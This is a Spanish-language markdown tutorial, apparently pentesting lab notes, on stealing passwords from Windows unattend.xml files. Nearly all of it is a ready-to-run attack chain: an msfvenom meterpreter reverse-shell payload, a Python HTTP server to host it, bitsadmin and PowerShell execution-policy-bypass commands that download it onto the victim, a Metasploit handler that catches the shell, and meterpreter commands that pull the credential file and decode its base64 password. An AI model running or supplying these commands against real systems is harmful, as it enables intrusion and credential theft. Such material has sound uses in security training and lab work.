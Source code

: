 # 🔍 Searching for Passwords in Windows Configuration Files (unattend.xml)

---

## 🧠 Objetivo
Extraer contraseñas almacenadas en archivos de configuración de Windows (`unattend.xml`) a través de una sesión `meterpreter`, después de comprometer el equipo con un payload personalizado.

---

## 🧰 Requisitos
- Acceso a una máquina atacante con Kali Linux.
- Acceso inicial a una máquina víctima con Windows.
- `msfvenom`, `msfconsole`, servidor HTTP (Python), sesión `meterpreter`.

---

## ⚙️ Paso 1: Crear el payload malicioso

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<tu_IP> LPORT=<puerto> -f exe > payload.exe
```

- `-p` → payload meterpreter para Windows x64.
- `LHOST` y `LPORT` → IP y puerto del atacante.
- `-f exe` → formato ejecutable para Windows.

---

## 📡 Paso 2: Servir el payload con Python

```bash
python3 -m http.server 80
```

- Sirve `payload.exe` desde el directorio actual a través de HTTP.

---

## 💻 Paso 3: Descargar el payload desde la máquina víctima

```cmd
bitsadmin /transfer payload /download /priority high http://<tu_IP>/payload.exe C:\Windows\Temp\payload.exe
```

O (más moderno y estable):

```cmd
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://<tu_IP>/payload.exe -OutFile C:\Windows\Temp\payload.exe"
```

---

## 🚀 Paso 4: Lanzar Metasploit y configurar el handler

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <tu_IP>
set LPORT <puerto>
set ExitOnSession false
exploit -j
```

- Deja el handler escuchando para recibir la conexión reversa.

---

## 🧨 Paso 5: Ejecutar el payload desde la víctima

```cmd
C:\Windows\Temp\payload.exe
```

Una vez ejecutado, recibirás una sesión en Metasploit.

---

## 🛰️ Paso 6: Buscar archivos de configuración en la víctima

Desde la sesión `meterpreter`:

```bash
cd C:\\Windows\\Panther
ls
```

Busca el archivo:
```bash
download unattend.xml /root/Desktop/
```

O en otras rutas:
```bash
cd C:\\Windows\\System32\\Sysprep
cd C:\\Windows\\Panther\\UnattendGC
```

---

## 🔍 Paso 7: Leer y decodificar la contraseña (Base64)

Abre el archivo `unattend.xml` descargado y localiza la línea:

```xml
<Password>
  <Value>QWRtaW5AMTIz</Value>
  <PlainText>false</PlainText>
</Password>
```

Decodifica en Linux:

```bash
echo 'QWRtaW5AMTIz' | base64 -d
```

Resultado:
```
Admin@123
```

O en PowerShell:

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("QWRtaW5AMTIz"))
```

---

## ✅ Notas importantes

- `unattend.xml` se usa en despliegues automatizados de Windows (Sysprep) y **suele contener contraseñas en texto claro o Base64**.
- También revisa: `sysprep.xml`, `autounattend.xml`, o cualquier `.xml` en `C:\Windows\Panther\` y `C:\Windows\System32\Sysprep`.
- El hecho de que `PlainText=false` no significa que esté cifrado, sólo codificado (trivial de recuperar).

---

